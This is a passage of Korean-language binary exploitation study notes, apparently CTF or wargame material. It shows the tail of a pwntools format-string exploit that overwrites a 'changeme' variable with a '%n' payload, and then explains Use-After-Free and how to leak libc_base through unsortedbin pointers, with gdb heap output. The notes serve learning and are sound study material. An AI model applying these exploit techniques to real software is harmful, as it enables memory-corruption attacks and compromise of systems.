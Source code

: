       print('offset main:', hex(elf.symbols['main']))
      print('offset changeme:', hex(elf.symbols['changeme']))
      print('addr_changeme:', hex(addr_changeme))

      ##########
      # 3. overwrite 'changeme' variable 
      ##########
      payload = b"%1337c%8$n".ljust(16,b'A')
      payload += p64(addr_changeme)
      print('payload:', payload)
      # 1337 길이의 어떤 문자를 출력하고(무슨 문자가 될지는 모름)
      # 1337을 rsp[0x18] 에 덮어쓰게 하기 위해 16자리까지는 FSB 유발 데이터 + dummy string 으로 채우고
      # 17자리부터 24자리까지 changeme 변수의 주소로 채운다.
      # 이렇게 되면 stack 에서 rsp[0] ~ rsp[16] 까지는 FSB 유발 데이터 + dummy string 이 들어가고
      # rsp[17] ~ rsp[24] 까지는 changeme 변수의 주소가 담기게 된다.
      p.sendline(payload)

      p.interactive()
      ```
### Use-After-Free
- 메모리를 해제하느라 free 를 호출하면 free 함수는 메모리를 `ptmalloc` 에 반환할 뿐, 메모리 영역을 초기화 하거나 포인터를 초기화 하지는 않는다. 
  - [ptmalloc 참조](../../computerscience/computer_science/#ptmalloc (pthread malloc))
- free 함수를 호출 한 이후 포인터는 `dangling pointer` 가 되어 해제된 chunk 영역을 가리키게 된다.
- `dangling pointer` 를 활용하여 해제된 메모리에 접근하여 발생할 수 있는 보안 취약점을 `UAF`(`Use-After-Free`) 라 하며, `dangling pointer` 가 가리키는 메모리가 해제되기 전에 담고 있었던 데이터가 유출 될 수 있다. 
- `unsortedbin` 의 첫 chunk 는 libc 영역의 특정 구역과 연결된다. 즉, 첫 chunk 의 `fd` 와 `bk` 영역에는 libc 영역의 주소가 기록된다는 점을 활용하여 libc_base 를 확인할 수 있다. [ptmalloc 참조](../../computerscience/computer_science/#ptmalloc (pthread malloc))

- exploit 조건
  1. unsortedbin 에 들어갈 수 있는 크기의 heap 을 할당 할 수 있어야 한다.
  2. heap 을 원할 때 해제 할 수 있어야 한다. (unsorted bin 의 chunk 와 top chunk 와 붙지 않게 조절 필요)
  3. uaf 취약점이 있어야 한다. (heap 에서 함수 포인터 주소를 읽어 실행하는 구문 존재)
  4. 실행파일 및 소스코드 확보

- exploit 방법
  1. libc_base 와 특정 메모리의 `fd` 혹은 `bk` 간 거리(index) 를 찾아낸다.
     - `gdb`에서 프로그램을 실행시킨 후 메모리를 할당하고 해제하여 `unsortedbin` 영역에 chunk 를 생성시키고, `heap` 명령으로 그 chunk 의 `fd` 나 `bk` 영역의 메모리를 추출한다. (1024 이상 메모리 할당 필요)
      ```
      Free chunk (largebins) | PREV_INUSE
      Addr: 0x555555559290
      Size: 0x510 (with flag bits: 0x511)
      fd: 0x7ffff7fb8010
      bk: 0x7ffff7fb8010
      fd_nextsize: 0x555555559290
      bk_nextsize: 0x555555559290
      ```
